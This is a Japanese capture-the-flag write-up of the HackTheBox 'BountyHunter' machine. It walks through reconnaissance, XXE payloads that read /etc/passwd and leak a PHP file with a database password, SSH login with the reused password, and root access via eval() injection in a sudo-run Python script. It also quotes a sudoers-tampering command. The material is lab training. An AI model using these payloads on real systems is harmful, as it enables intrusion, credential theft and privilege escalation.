

# Writeup : HackTheBox - BountyHunter

`本ブログに記載されている内容は悪用厳禁です。`

## マシン情報

難易度EasyのBox。


## 解法

openvpnでVPN接続を実施。IPアドレスの確認。

```
$ ifoconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.92  netmask 255.255.254.0  destination 10.10.14.92
        inet6 fe80::b3ed:ebe1:c0c7:936e  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::105a  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (不明なネット)
        RX packets 2341  bytes 1504584 (1.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2253  bytes 130656 (130.6 KB)
        TX errors 0  dropped 130 overruns 0  carrier 0  collisions 0
```

環境内の/etc/hostsファイルを編集して、IPアドレス`10.10.11.100`を`bountyhunter.htb`に紐付ける。

nmapコマンドを実行する。80番ポートでWebサービス(Apache 2.4.41)が動作していることと、22番ポートが開いていることが確認できる。

```
$ nmap -Pn -T4 -A bountyhunter.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-07 19:34 JST
Nmap scan report for bountyhunter.htb (10.10.11.100)
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/7%OT=22%CT=1%CU=39718%PV=Y%DS=2%DC=T%G=Y%TM=6187ABC
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   176.69 ms 10.10.14.1
2   177.02 ms bountyhunter.htb (10.10.11.100)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.01 seconds
```

Webブラウザで`http://bountyhunter.htb/`にアクセスする。ブログページのようなものが表示される。


dirbを使用してファイルパスの調査を行う。

```
$ dirb http://bountyhunter.htb /usr/share/wordlists/dirb/common.txt 
...
...
---- Scanning URL: http://bountyhunter.htb/ ----
==> DIRECTORY: http://bountyhunter.htb/assets/                                                                                                                                     
==> DIRECTORY: http://bountyhunter.htb/css/                                                                                                                                        
+ http://bountyhunter.htb/index.php (CODE:200|SIZE:25169)                                                                                                                          
==> DIRECTORY: http://bountyhunter.htb/js/                                                                                                                                         
==> DIRECTORY: http://bountyhunter.htb/resources/                                                                                                                                  
...
...
```

resourcesディレクトリ(`http://bountyhunter.htb/resources/`)が存在している。アクセスして中身を確認すると、スクリプトファイルと`README.txt`が置かれている。記載されている内容はToDoリストのようで、パスワード無しの"test"というアカウントが存在している?

```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```

他のリストも適当に試して探索を続ける。CGI関連で1件怪しいPHPファイル見つかった。`db.php`からは何か情報が得られそうだが内容は不明。

```
dirb http://bountyhunter.htb /usr/share/wordlists/dirb/vulns/cgis.txt 
...
...
+ http://bountyhunter.htb/db.php (CODE:200|SIZE:0)
+ http://bountyhunter.htb/db.php?q='&t=' (CODE:200|SIZE:0)
...
...
```

トップページのPORTALタブからアクセスできるページ(`http://bountyhunter.htb/portal.php`)は工事中。

```
<html>
<center>
Portal under development. Go <a href="log_submit.php">here</a> to test the bounty tracker.
</center>
</html>
```

工事中のページからアクセス可能なページ(`http://bountyhunter.htb/log_submit.php`)には入力フォームがある。



```
<html>
<head>
<script src="/resources/jquery.min.js"></script>
<script src="/resources/bountylog.js"></script>
</head>
<center>
<h1>Bounty Report System - Beta</h1>
<input type="text" id = "exploitTitle" name="exploitTitle" placeholder="Exploit Title">
<br>
<input type="text" id = "cwe" name="cwe" placeholder="CWE">
<br>
<input type="text" id = "cvss" name="exploitCVSS" placeholder="CVSS Score">
<br>
<input type="text" id = "reward" name="bountyReward" placeholder="Bounty Reward ($)">
<br>
<input type="submit" onclick = "bountySubmit()" value="Submit" name="submit">
<br>
<p id = "return"></p>
<center>
</html>
```

Submitボタンを押下すると下記のようなメッセージが表示される。

```
If DB were ready, would have added:
Title:	
CWE:	
Score:	
Reward:	
```

トップページに記載されていた`Bounty Hunters - Security Researchers - Can use Burp`というメッセージに従って、Burp Suiteでlog_submit.phpのPOSTリクエストの中身を確認する。

```
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: bountyhunter.htb
Content-Length: 211
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://bountyhunter.htb
Referer: http://bountyhunter.htb/log_submit.php
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close

data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPjE8L2N3ZT4KCQk8Y3Zzcz4yPC9jdnNzPgoJCTxyZXdhcmQ%2BMTAwPC9yZXdhcmQ%2BCgkJPC9idWdyZXBvcnQ%2B
```

POSTされているデータをCyberChefでURLデコード -> Base64デコードする。

> https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true)&input=UEQ5NGJXd2dJSFpsY25OcGIyNDlJakV1TUNJZ1pXNWpiMlJwYm1jOUlrbFRUeTA0T0RVNUxURWlQejRLQ1FrOFluVm5jbVZ3YjNKMFBnb0pDVHgwYVhSc1pUNTBaWE4wUEM5MGFYUnNaVDRLQ1FrOFkzZGxQakU4TDJOM1pUNEtDUWs4WTNaemN6NHlQQzlqZG5OelBnb0pDVHh5WlhkaGNtUSUyQk1UQXdQQzl5WlhkaGNtUSUyQkNna0pQQzlpZFdkeVpYQnZjblElMkI

ユーザ入力をXML形式のデータとして送信しているらしい。XXEの脆弱性?

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<bugreport>
<title>test</title>
<cwe>aaa</cwe>
<cvss>bbb</cvss>
<reward>999</reward>
</bugreport>
```

XXEを悪用するためのペイロードを適当に探す。この辺が使えそう。

> https://github.com/payloadbox/xxe-injection-payload-list

ファイルの読み込みに使えるペイロードがあるのでこれを改造する。

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
<firstName>John</firstName>
<lastName>&ent;</lastName>
</userInfo>
```

下記のようなPayloadを作成してBurpのRepeater機能で送信してみたが、/etc/shadowの中身は読み込めなかった。

```
[作成したPayload]

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<bugreport>
<title>foo</title>
<cwe>bar</cwe>
<cvss>10</cvss>
<reward>&ent;</reward>
</bugreport>

[URLエンコード+Base64エンコード]

PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgcmVwbGFjZSBbPCFFTlRJVFkgZW50IFNZU1RFTSAiZmlsZTovLy9ldGMvc2hhZG93Ij4gXT4KPGJ1Z3JlcG9ydD4KPHRpdGxlPmZvbzwvdGl0bGU%2BCjxjd2U%2BYmFyPC9jd2U%2BCjxjdnNzPjEwPC9jdnNzPgo8cmV3YXJkPiZlbnQ7PC9yZXdhcmQ%2BCjwvYnVncmVwb3J0Pg%3D%3D
```

他にも適当に試すと/etc/passwdは読み込めた。脆弱性の悪用に成功してそう。

```
[作成したPayload]

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>foo</title>
<cwe>bar</cwe>
<cvss>10</cvss>
<reward>&ent;</reward>
</bugreport>

[URLエンコード+Base64エンコード]

PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgcmVwbGFjZSBbPCFFTlRJVFkgZW50IFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj4gXT4KPGJ1Z3JlcG9ydD4KPHRpdGxlPmZvbzwvdGl0bGU%2BCjxjd2U%2BYmFyPC9jd2U%2BCjxjdnNzPjEwPC9jdnNzPgo8cmV3YXJkPiZlbnQ7PC9yZXdhcmQ%2BCjwvYnVncmVwb3J0Pg%3D%3D
```

応答は下記の通り。存在するアカウントの情報が得られた。

```
HTTP/1.1 200 OK
Date: Sun, 07 Nov 2021 11:52:37 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2098
Connection: close
Content-Type: text/html; charset=UTF-8

If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>foo</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>bar</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>10</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
</td>
  </tr>
</table>
```

存在するアカウントの情報は得られたが、対応するパスワードの情報が何も得られていない。若干行き詰まったが、脆弱性を悪用してdb.phpを閲覧できないかと考えて、下記のアクセス制御バイパスを試してみた。

```
XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

URLを指定して試してみたが失敗した。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://bountyhunter.htb/db.php">]>
<bugreport>
<title>foo</title>
<cwe>bar</cwe>
<cvss>10</cvss>
<reward>&ac;</reward>
</bugreport>
```

Apacheを使用しているようだったので、ファイルが配置されているパスは`/var/www/html`の下だと推測する。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
<bugreport>
<title>foo</title>
<cwe>bar</cwe>
<cvss>10</cvss>
<reward>&ac;</reward>
</bugreport>
```

上記のPayloadを投げ込むとBase64エンコードされたデータが返ってきた。PHPファイルのアクセス制御をバイパスできている模様。

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

Base64デコードすると、下記の認証情報が得られた。

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

先の説明にあったものと思われるtestユーザと、DB用のadminユーザの認証情報と思われるものが得られる。しかし、先に読み取った/etc/passwdにはtestユーザもadminユーザも含まれていなかったので、dbpasswordが他のアカウントで使い回されているとか?

UID=1000、homeディレクトリも存在してそう、かつ名前が開発用アカウントを彷彿させるものであるため、developmentアカウントが開発用に作成されたアカウントと推測する。

```
development:x:1000:1000:Development:/home/development:/bin/bash
```

このアカウントに対してdb.phpに記載されていたパスワード(`m19RoAU0hP41A1sTsq6K`)を試してみる。22番ポートに対してSSH接続を行う。

```
$ ssh development@10.10.11.100
The authenticity of host '10.10.11.100 (10.10.11.100)' can't be established.
ECDSA key fingerprint is SHA256:3IaCMSdNq0Q9iu+vTawqvIf84OO0+RYNnsDxDBZI04Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.100' (ECDSA) to the list of known hosts.
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 07 Nov 2021 12:13:15 PM UTC

  System load:  0.08              Processes:             219
  Usage of /:   24.2% of 6.83GB   Users logged in:       0
  Memory usage: 15%               IPv4 address for eth0: 10.10.11.100
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Nov  7 11:41:46 2021 from 10.10.16.50
```

developmentアカウントを使用したログオンに成功した。user.txtを確認する。

```
development@bountyhunter:~$ ls
contract.txt  tamil2.md  tamil.md  test1.md  test.md  test.py  user.txt
development@bountyhunter:~$ cat user.txt 
【user.txtの内容】
```

root.txtを取得するために調査を継続する。homeディレクトリの.bash_historyは/dev/nullにリダイレクトされているが`.python_history`は残っている。Pythonスクリプト経由でコマンド実行を色々試行していた痕跡がある。

```
development@bountyhunter:~$ ls -la
total 72
drwxr-xr-x 5 development development 4096 Nov  7 11:58 .
drwxr-xr-x 3 root        root        4096 Jun 15 16:07 ..
lrwxrwxrwx 1 root        root           9 Apr  5  2021 .bash_history -> /dev/null
-rw-r--r-- 1 development development  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 development development 3771 Feb 25  2020 .bashrc
drwx------ 2 development development 4096 Apr  5  2021 .cache
-rw-r--r-- 1 root        root         471 Jun 15 16:10 contract.txt
lrwxrwxrwx 1 root        root           9 Jul  5 05:46 .lesshst -> /dev/null
drwxrwxr-x 3 development development 4096 Apr  6  2021 .local
-rw-r--r-- 1 development development  807 Feb 25  2020 .profile
-rw------- 1 development development 1181 Nov  7 11:57 .python_history
-rw-rw-r-- 1 development development   66 Nov  7 10:22 .selected_editor
drwx------ 2 development development 4096 Apr  7  2021 .ssh
-rw-rw-r-- 1 development development   51 Nov  7 10:36 tamil2.md
-rwxrwxrwx 1 development development  648 Nov  7 11:57 tamil.md
-rw-rw-r-- 1 development development   21 Nov  7 10:46 test1.md
-rw-rw-r-- 1 development development   51 Nov  7 10:42 test.md
-rw-rw-r-- 1 development development   31 Nov  7 11:58 test.py
-r--r----- 1 root        development   33 Nov  7 07:20 user.txt
-rw------- 1 development development 2475 Nov  7 11:39 .viminfo

development@bountyhunter:~$ cat test.py 
import os
os.system("sudo su")

development@bountyhunter:~$ cat .python_history 
quit
exit
exit()
test.py
os.system("cd ~")
import os
os.system("cd ~")
print(import os\n os.system("cd ~"))
import os\n os.system("cd ~")
import os os.system("cd ~")
import osos.system("cd ~")
import os; os.system("cd ~")
quit
quit()
__import__(os)
__import__(subprocess)
__import__("subprocess")
__import__("os")
exit
quit()
__import__("os");os.system("hsh")
os=__import__("os");os.system("hsh")
os=__import__("os");os.system("echo hsh")
os=__import__("os");os.system("echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers")
os=__import__("os");os.system("echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers)
os=__import__("os");os.system("echo sudo su)
os=__import__("os");os.system("echo sudo su")
os=__import__("os");os.system("sudo su")
exit
exit()
execfile("test.py")
exec(open("test.py").read)
execfile("/home/development/test.py")
import execfile
exec()
exec("test.py")
exec("/home/development/test.py")
exec(compile(open("test.py").read()))
exec(compile(open("test.py").read(),"test","exec"))e
e
exit()
exec(compile(file.read(), filepath, 'exec'), globals, locals)
exec(compile(open("test.py").read(), test, 'exec'))
exec(compile(open("test.py").read(),"test","exec"))
exit()
```

sudo -lコマンドを実行すると`/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`がroot権限で実行可能であることが分かる。

```
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Pythonスクリプト`/opt/skytrain_inc/ticketValidator.py`の内容を確認する(※ コメント文を追記)。

```python
development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()): # iにインデックス番号(この場合は行番号)、xにリストの要素(この場合は.mdファイルの各行)
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"): # チケットの先頭は"**"から始まる
                return False
            ticketCode = x.replace("**", "").split("+")[0] # 先頭の"**"を削除して後、"+"で行を分割して先頭の値を取得する -> 先頭は"**1+"のような形式になる
            if int(ticketCode) % 7 == 4: # 【先頭の値】 mod 7 == 4の時、"**"以下が評価される -> ここでコマンド実行ができそう
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName) # 読み込むことができるのは拡張子が".md"のファイル
    #DEBUG print(ticket)
    result = evaluate(ticket) # 読み込んだ.mdファイルの名前を引数に取る
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

チケット(拡張子が.mdのファイルに記載される)の内容が適切かチェックするPythonスクリプトのようで、下記のようなフォーマットで記載されていることが期待されている。eval()で評価される4行目が悪用できそう。

```markdown
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
**【mod 7 == 4になる値】+
```

環境内に存在する.mdファイルの内容を確認する。

```
development@bountyhunter:~$ cat tamil.md
# Skytrain Inc
## Ticket to print("hey")
__Ticket Code:__
**32+exec(compile(open("test.py").read(),"test","exec")) **
##Issued: 2021/04/06
#End Ticket

development@bountyhunter:~$ cat tamil2.md
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
development@bountyhunter:~$ cat test1.md
print("hello world")
development@bountyhunter:~$ cat test.md
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

`tamil.md`が適切なフォーマットに近い内容なので、これを改造して使用する。"**"から始まる4行目で必要な値は`mod 7 == 4になる値`。eval内でcatコマンド等を使用してファイルの中身を読み取れば良いので、その次の行のvalidationNumberのチェックは無視して良い。今回は`11+0==11`にする。最後にAND演算子を続けて、OSコマンド実行を行うPythonスクリプトを実行させる。

書き方は色々あると思うが、下記のページのものを参考にワンライナーを書いた。

> https://programmer.help/blogs/python-sandbox-escape.html

改造したtamil.mdは下記の通り。

```
development@bountyhunter:~$ cat tamil.md
# Skytrain Inc
## Ticket to print("hey")
__Ticket Code:__
**11+0==11&__import__('os').system('cat /root/root.txt')
##Issued: 2021/04/06
#End Ticket
```

Pythonスクリプトを実行するとroot.txtを読むことができた。

```
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
tamil.md
Destination: print("hey")
【root.txtの内容】
Invalid ticket.
```
